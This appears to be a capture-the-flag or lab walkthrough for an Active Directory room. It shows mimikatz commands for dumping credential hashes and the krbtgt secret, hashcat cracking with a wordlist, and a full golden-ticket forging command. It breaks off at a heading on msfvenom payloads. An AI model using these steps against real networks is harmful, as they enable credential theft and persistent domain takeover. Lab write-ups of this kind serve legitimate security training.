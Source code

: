 Run ```Bloodhound``` and log in with neo4j creds

Import the zip file

In my case the import button didnt work and I had to drag and drop the file into the Bloodhound window

Use bloodhound to answer the Qs

### Dumping hashes w/ mimikatz
## Get those hashes
```powershell
cd Downloads
mimikatz.exe
```
Check you are running as an admin
```pivilege::debug```
Response should be
```Privilege '20' OK```

Dump the hashes
```lsadump::lsa /patch```

Save hashes locally to a file to use later

Find the correct hashcat mode for NTLM
>https://hashcat.net/wiki/doku.php?id=example_hashes

or

```hashcat -h | grep NTLM```

## Q1

Crack the password with rockyou.txt wordlist
```bash
hashcat -m #### <hash> /usr/share/wordlists/rockyou.txt
```

## Q2 

Get the hash from the saved hashes

### Golden Ticket Attacks w/ mimikatz
Go back to the Mimikatz console as previously

Dump the hash and security identifier of the Kerberos Ticket
```lsadump::lsa /inject /name:krbtgt```

Copy the sid (starts with something like S-1-5-21) username, NTLM hash,RID

## create the golden ticket
use the info obtained previous and run the following
```kerberos::golden /user:Administrator /domain:CONTROLLER /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500```

### Enumeration w/ Server Manager

Detailed write up not required.
Questions fairly simple

### Maintaining Access
## Generating a Payload w/ msfvenom

This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

```